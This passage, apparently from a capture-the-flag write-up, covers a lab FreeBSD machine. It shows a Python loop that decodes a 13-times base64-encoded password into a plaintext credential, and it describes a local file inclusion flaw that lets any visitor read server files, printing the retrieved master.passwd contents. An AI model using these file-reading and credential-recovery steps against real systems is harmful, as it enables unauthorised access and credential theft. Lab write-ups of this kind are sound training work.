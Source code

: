 ### Decoding the Password
The password was encoded 13 times using base64. A Python script was used to decode it:

```
import base64

enc = "Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU..."

for _ in range(13):
    enc = base64.b64decode(enc).decode("utf-8")

print(enc)
```

The decoded password is `Charix!2#4%6&8(0`.

### Local File Inclusion (LFI)
Injecting PHP scripts into the input field successfully executes them. However, a noticeable Local File Inclusion (LFI) vulnerability exists, allowing any site visitor to retrieve arbitrary files from the server. For example, accessing the following URL exposes the system's password file:

```
# $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $
#
root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin
operator:*:2:5:System &:/:/usr/sbin/nologin
bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin
tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin
kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin
games:*:7:13:Games pseudo-user:/:/usr/sbin/nologin
news:*:8:8:News Subsystem:/:/usr/sbin/nologin
man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin
sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin
smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin
mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin
bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin
unbound:*:59:59:Unbound DNS Resolver:/var/unbound:/usr/sbin/nologin
proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin
_pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin
_dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin
uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico
pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin
auditdistd:*:78:77:Auditdistd unprivileged user:/var/empty:/usr/sbin/nologin
www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin
_ypldap:*:160:160:YP LDAP unprivileged user:/var/empty:/usr/sbin/nologin
hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin
nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
_tss:*:601:601:TrouSerS user:/var/empty:/usr/sbin/nologin
messagebus:*:556:556:D-BUS Daemon User:/nonexistent:/usr/sbin/nologin
avahi:*:558:558:Avahi Daemon User:/nonexistent:/usr/sbin/nologin
cups:*:193:193:Cups Owner:/nonexistent:/usr/sbin/nologin
charix:*:1001:1001:charix:/home/charix:/bin/csh
```
